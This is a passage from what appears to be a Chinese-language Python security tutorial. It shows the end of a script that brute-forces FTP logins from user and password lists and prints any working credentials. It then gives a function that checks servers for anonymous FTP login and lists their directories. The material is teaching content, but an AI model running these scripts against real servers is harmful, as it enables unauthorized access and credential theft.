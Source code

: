         for user in users:
            for password in passwords:
                try:
                    print("[*] Trying to connect")
                    connect=ftplib.FTP(ip)
                    response=connect.login(user.strip(),password.strip())
                    print(response)
                    if "230 Login" in response:
                        print("[*]Sucessful attack")
                        print("User: "+ user + "Password: "+password)
                        sys.exit()
                    else:
                        pass
                except ftplib.error_perm:
                    print("Cant Brute Force with user "+user+ "and password "+password)
                connect.close

    except(KeyboardInterrupt):
         print("Interrupted!")
         sys.exit()

ip=input("Enter FTP SERVER:")
user_file="users.txt"
passwords_file="passwords.txt"
brute_force(ip,user_file,passwords_file)
```

# 用 Python 构建匿名 FTP 扫描程序

我们可以使用`ftplib`模块来构建脚本，以确定服务器是否提供匿名登录。

函数`anonymousLogin()`接受主机名并返回一个描述匿名登录可用性的布尔值。该函数尝试使用匿名凭据创建 FTP 连接。如果成功，则返回值“`True`”

您可以在文件名中找到以下代码：`checkFTPanonymousLogin.py`：

```py
import ftplib

def anonymousLogin(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login('anonymous', '')
        print(ftp.getwelcome())
        ftp.set_pasv(1)
        print(ftp.dir())        
        print('\n[*] ' + str(hostname) +' FTP Anonymous Logon Succeeded.')
        return ftp
    except Exception as e:
        print(str(e))
        print('\n[-] ' + str(hostname) +' FTP Anonymous Logon Failed.')
        return False
```
